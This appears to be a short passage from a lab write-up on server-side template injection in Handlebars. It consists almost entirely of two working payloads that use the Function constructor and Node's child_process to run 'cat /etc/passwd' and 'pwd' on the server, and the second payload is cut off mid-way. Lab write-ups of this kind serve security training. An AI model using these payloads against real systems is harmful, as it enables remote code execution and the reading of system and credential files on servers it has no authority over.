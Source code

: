 cat /etc/passwd:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('cat',['/etc/passwd']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
``` 



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/7.png)

pwd:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('pwd',[' ']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
```